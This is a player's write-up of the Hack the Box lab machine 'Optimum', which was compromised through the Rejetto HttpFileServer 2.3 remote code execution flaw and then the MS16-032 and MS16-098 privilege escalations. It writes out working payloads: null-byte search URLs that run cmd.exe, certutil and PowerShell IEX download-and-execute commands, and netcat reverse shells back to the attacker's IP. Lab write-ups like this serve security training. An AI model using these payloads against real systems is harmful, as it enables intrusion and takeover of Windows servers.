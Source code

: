 ```yaml
---
title: Optimum
tags: windows
description: Write-up for Hack the Box - Optimum
---
```


![image](assets/79375859-4e294100-7f27-11ea-99b2-7edafa05220c.png)

## Overview

Optimum is a Windows Server box running Rejetto HttpFileServer 2.3 that was vulnerable to unauthenticated remote code execution. I was able to leverage the RCE to get an initial foothold. I used sherlock to look for kernel exploits and found that it was vulnerable to MS16-032 (Secondary Logon Service) which was used to create a reverse shell as the 'nt authority/system' account. 

>Secondary Logon provides a means for entering alternate credentials that is often used by administrators to authenticate and perform administrative tasks when logged on with a non-administrator account. The service fails to sanitize handles when creating a new process which can be abused by a standard user to perform privilege escalation as a system service thread pool handle can be duplicated.

## Enumeration

**Software**
* Windows Server 2012 R2
* Rejetto HttpFileServer 2.3

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.8 -oN /mnt/data/boxes/optimum/_full_tcp_nmap.txt
```

* 80/tcp - http

## Steps (user)

The only port open from the nmap scan was port 80 so I browsed to http://10.10.10.8 and was presented with an "HttpFileServer" page.

![image](assets/83679465-70e1e880-a5ad-11ea-924e-b8afc9c07845.png)

I looked around the site and played with some functionality but I didn't gain any other useful information. There was a link to log in but I didn't have credentials at this point so I moved on.  Under server information I noted the application name and version - HttpFileServer 2.3 - which is a hyperlink that goes to https://www.rejetto.com/hfs/

![image](assets/83679751-e77ee600-a5ad-11ea-94d6-1de041baf6ee.png)

Doing a search for in searchsploit for "rejetto" turned up a number of results.

![image](assets/83679912-2dd44500-a5ae-11ea-911c-770e9f88e77f.png)

According to 34668, there is a flaw in how ParsetLib.pas handles regex in HttpFileServer which allows for remote code execution. This allowed me to use HFS script commands by using %00 to bypass the filtering.

![image](assets/83680747-5b6dbe00-a5af-11ea-8e4c-efb1adbf07b1.png)

As a test I sent a command that would ping my machine. First I set up tcpdump to listen for icmp requests on tun0

```
sudo tcpdump -i tun0 icmp
```

Then I set up burp to capture the request and modified the request to ping my box.

```
http://10.10.10.8/?search=%00{.exec|/?search=%00{.exec|c%3a\windows\system32\cmd.exe+/c+ping+-n+1+10.10.14.26.} }
```

![image](assets/83693167-86620d00-a5c3-11ea-9d36-adb460d6d2fc.png)

I received an icmp echo request which confirmed that I was able execute commands. The next step was to transfer netcat to the box and create a reverse shell.

> Note: Initially I transferred the 32-bit version of netcat but this caused a problem with the exploit. The problem was that I was trying to execute a 64-bit powershell script from a 32-bit version of cmd.exe. The solution was to transfer the 64-bit version of netcat to get a 64-bit shell.

I copied nc64.exe to my working directory and set up a python http server in preparation to transfer files.

```
cp ~/tools/windows-binaries/nc64.exe .
sudo python3 -m http.server 80
```

Using repeater in Burp I sent the following command which uses certutil to download nc64.exe to the target.

```
http://10.10.10.8/?search=%00{.exec|c%3a\windows\system32\cmd.exe+/c+certutil+-urlcache+-split+-f+http%3a//10.10.14.26/nc64.exe.}
```

![image](assets/83818426-5c791b00-a695-11ea-9acf-137f7c55367d.png)


I set up a netcat listener (rlwrap nc -lvnp 4200) and the executed the command to create the reverse shell - 'nc64.exe -e cmd 10.10.14.26 4200'

```
http://10.10.10.8/?search=%00{.exec|c%3a\windows\system32\cmd.exe+/c+nc64.exe+-e+cmd+10.10.14.26+4200.}
```

![image](assets/83818576-b7ab0d80-a695-11ea-959a-339cff9f661a.png)

## Steps (root/system)

After doing some enumeration and not finding any obvious privilege escalation paths, I proceeded with sherlock to look for kernel exploits. 

I copied sherlock to working directory and started a python http server

```
cp ~/tools/Sherlock/Sherlock.ps1 .
sudo python3 -m http.server 80
```

I used Powershell Invoke-Expression (IEX) to run sherlock in memory, executing the 'Find-AllVuns' function.

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.26/Sherlock.ps1');Find-AllVulns"
```

There were a few options available but I decided to go with the well known MS16-032. I used the powershell version from [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite)

![image](assets/83696390-5c601900-a5ca-11ea-944d-a2827dcb5152.png)


I already had the git repo cloned to my local machine so I copied the script to my working directory.

```
cp ~/tools/PowerShell-Suite/Invoke-MS16-032.ps1 .
```

This exploit creates a pop-up cmd prompt as 'nt authority\system' by default but beacuse I'm not logged in via the gui I modified it to use netcat to create a reverse shell instead.

![image](assets/83700958-435d6500-a5d6-11ea-9e35-f2c7f7060c06.png)

```
# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
                $CallResult = [Advapi32]::CreateProcessWithLogonW(
                        "user", "domain", "pass",
                        0x00000002, 'c:\windows\system32\cmd.exe', '/c C:\users\kostas\desktop\nc64.exe -e cmd 10.10.14.26 4201',
                        0x00000004, $null, $GetCurrentPath,
                        [ref]$StartupInfo, [ref]$ProcessInfo)

```

On the target box I used powershell IEX again to download the powershell script and execute the 'Invoke-MS16-032' function.

```
powershell -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.26/Invoke-MS16-032.ps1');Invoke-MS16-032
```

The exploit failed at first with "No valid thread handle was captured, exiting." The reason for this is that I was executing a 64-bit exploit in a 32-bit shell. A full explanation can be found here: https://spencerdodd.github.io/2017/07/20/WOW64/

![image](assets/83811099-29c82600-a687-11ea-9832-18baf2f89c67.png)

Once the script was executed in a 64-bit shell I received a callback on my netcat listener and shell as 'nt authority\system' user.

![image](assets/83700913-29238700-a5d6-11ea-8a29-f08aca31f455.png)

## Steps (root/system - alternate)

When I did this box originally I used MS16-098 for privilege escalation which was listed by windows-exploit-suggester. For this write-up I decided to use Sherlock instead but for some reason it didn't list MS16-098. I used this as an opportunity to try a different exploit. 

> Additional information about MS16-098 can be found here https://sensepost.com/blog/2017/exploiting-ms16-098-rgnobj-integer-overflow-on-windows-8.1-x64-bit-by-abusing-gdi-objects/

First I copied the output of the 'systeminfo' command on the target box and saved it to a file. I ran windows-exploit-suggester to see which vulnerability were applicable.

```
/windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](assets/83819582-3dc85380-a698-11ea-90d6-291666393da7.png)

I downloaded bfill.exe from the sensepost [github repo](https://github.com/sensepost/ms16-098) and transferred it to the target machine using the python http server and certutil as described earlier. I received root shell right on the box.

![image](assets/83819726-9f88bd80-a698-11ea-8861-94ddf2ccebe7.png)
